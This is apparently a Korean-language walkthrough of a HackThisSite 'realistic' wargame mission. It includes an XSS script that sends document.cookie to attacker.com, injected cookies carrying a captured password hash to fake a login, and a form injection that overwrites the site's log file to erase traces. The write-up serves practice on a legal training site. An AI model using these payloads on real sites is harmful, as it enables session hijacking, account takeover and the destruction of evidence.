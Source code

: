 - 상사 이메일은 메시지 보내기에서 확인 가능하므로, 특별히 얻을 정보 없음
- `m-crap@crappysoft.com` 쿠키정보 확인
  + `javascript:alert(document.cookie)`

#### 세션하이잭킹

```html
<script>
  url="http://attacker.com/getCookie.php?cookie="+document.cookie;
	window.open(url,width-0,height=-;
</script>
```

- 위 스크립트를 private message로 보내면 아래 정보 나온다.

```text
strUsername=m-crap%40crappysoft.com;
strPassword=94a35a3b7befff5eb2a8415af04aa16c;
intID=1;
```

- 이걸 이용해서 쿠키정보 입력(가짜로그인)
```html
javascript:document.cookie="strUsername=m-crap%40crappysoft.com;"
javascript:document.cookie="strPassword=94a35a3b7befff5eb2a8415af04aa16c;"
javascript:document.cookie="intID=1;"
```

![9_crappy-soft-fake-login.png](images/9_crappy-soft-fake-login.png)

- 로그파일 지우기
  + http://www.hackthissite.org/missions/realistic/9/files/ 에서 로그파일확인
	+ 로그파일 경로: ./files/logs/logs.txt
  + 메일링리스트 경로: ./files/mailinglist/addresses.txt
	+ 이메일리스트에 가입하는 페이지에서 정보를 address.txt에 저장하는 내용 있음
	+ ->이걸 이용해서 로그파일에 내용""으로 덮어쓰기.

```html
javascript:document.write("<form action=subscribemailing.php method=post><input type=hidden name=strFilename value=./files/logs/logs.txt><input type=hidden name=strEmailAddress value=''><input type='submit' value='replacelogs'></form>")
```
